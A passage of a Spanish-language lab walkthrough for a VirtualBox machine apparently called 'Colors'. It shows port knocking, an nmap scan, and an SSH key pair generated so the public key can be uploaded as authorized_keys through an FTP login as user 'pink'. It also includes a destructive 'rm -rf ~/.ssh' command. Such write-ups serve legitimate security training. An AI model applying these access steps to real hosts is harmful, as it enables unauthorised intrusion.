 ```
❯ knock 10.0.2.25 1127 1039 1081
                                                                
❯ sudo nmap -Pn -sS -n -p- 10.0.2.25
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-10 19:27 EST
Nmap scan report for 10.0.2.25
Host is up (0.000099s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:E5:6C:9A (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.94 seconds
```

En un intento de conectarme mediante ssh me dice que no se puede debido a que solo se puede entrar mediante tus keys

```
❯ ssh pink@10.0.2.25                
The authenticity of host '10.0.2.25 (10.0.2.25)' can't be established.
ED25519 key fingerprint is SHA256:Dgjoo3i4uigkHRTkQY5MGbxQ/VGwXISMlIp1j3IV5ZU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.25' (ED25519) to the list of known hosts.
pink@10.0.2.25: Permission denied (publickey).
```

Creamos nuestra llave publica

```
❯ rm -rf ~/.ssh 

❯ ssh-keygen 

❯ cp ~/.ssh/id_rsa.pub ~/Documents/Colors/

❯ cp ~/.ssh/id_rsa ~/Documents/Colors/

❯ mv ~/Documents/Colors/id_rsa.pub ~/Documents/Colors/authorized_keys
```

Ahora nos conectamos mediante ftp con el usuario de pink y le pasamos nuestra llave publica

```
❯ ftp 10.0.2.25
Connected to 10.0.2.25.
220 (vsFTPd 3.0.3)
Name (10.0.2.25:kali): pink
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||32216|)
150 Here comes the directory listing.
drwx------    2 1127     1127         4096 Feb 11 19:55 green
drwx------    3 1000     1000         4096 Feb 11 19:18 pink
drwx------    2 1081     1081         4096 Feb 20 16:07 purple
drwx------    2 1039     1039         4096 Feb 11 19:56 red

ftp> cd pink
250 Directory successfully changed.

ftp> ls -la
```